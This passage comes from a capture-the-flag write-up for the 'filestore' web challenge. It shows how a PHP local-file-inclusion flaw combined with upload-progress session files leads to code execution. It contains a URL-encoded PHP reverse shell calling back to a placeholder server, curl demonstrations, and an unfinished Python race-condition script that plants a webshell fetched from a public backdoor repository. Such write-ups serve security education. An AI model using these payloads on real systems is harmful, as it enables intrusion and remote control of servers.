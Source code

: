 ```bash
https://filestore.web.actf.co/?cmd=php%20-r%20'$sock=fsockopen(%22MYSERVERIP%22,MYSERVERPORT);exec(%22/bin/sh%20-i%20%3C&3%20%3E&3%202%3E&3%22);'&f=64445b3XXXXXX_92fc4a95a29d181d748d812e6dde0d27e5ecb28a67ee9475d11e472b01911f64_shell.php%0A

# php -r '$sock=fsockopen("MYSERVERIP",MYSERVERPORT);exec("/bin/sh -i <&3 >&3 2>&3");'
```

And we got into the box!

##### 2.PHP upload session files

Ok before we start with the vulnerability one thing to be explained is that when we upload a file to a PHP script it will probably create a session file for us at least until that file is fully uploaded, this is to make sure that the file is successfully delivered

So the trick here is that since we have LFI and the ability to upload files, we can upload any file (Ex. a shell) to the server and have us read that file through the LFI, so when we do that we can create more stable shell anywhere else because the shell we upload will be cleaned when the file is done uploading, so t will be a race condition!

You can read more about this trick at this [HackTrick](https://book.hacktricks.xyz/pentesting-web/file-inclusion/via-php_session_upload_progress) article

here is a demo of when PHP will create that session file:

```bash
curl http://127.0.0.1/ -H 'Cookie: PHPSESSID=iamorange'
ls -a /var/lib/php/sessions/
. ..
curl http://127.0.0.1/ -H 'Cookie: PHPSESSID=iamorange' -d 'PHP_SESSION_UPLOAD_PROGRESS=blahblahblah'
ls -a /var/lib/php/sessions/
. ..
curl http://127.0.0.1/ -H 'Cookie: PHPSESSID=iamorange' -F 'PHP_SESSION_UPLOAD_PROGRESS=blahblahblah'  -F '[email protected]/etc/passwd'
ls -a /var/lib/php/sessions/
. .. sess_iamorange
​
```
So to exploit this I will be using this script from [SloppyJoePirates](https://www.youtube.com/watch?v=fe5O1wUSkIE) to do our race condition

```python
import os
import requests

HOST = "https://filestore.web.actf.co"

def create_sess_file():
    payload = "<?php system('curl https://raw.githubusercontent.com/backdoorhub/shell-backdoor-list/master/shell/php/simple-shell.php  > /tmp/webshell.php'); ?>" # RCE to make a webshell in /tmp directory because the session RCE will get deleted
    data = { 'PHP_SESSION_PROGRESS_UPLOAD':  payload }
    headers = {"Connection": 'close',"Cookie":'PHPSESSID=webshell'}
    while 1:
        fp = open('/etc/passwd','rb') # just lorem file to make the session
        print("create_sess_file")
        r = requests.post(HOST,files={'f':fp}, data=data,headers=headers)
        fp.close()


def execute_payload1():
    while True:
        print("execute_payload1")
        r = requests.get(f"{HOST}/?f=../../../../../../../tmp/sess_webshell") # Trying to access the session file that is created during the file upload

```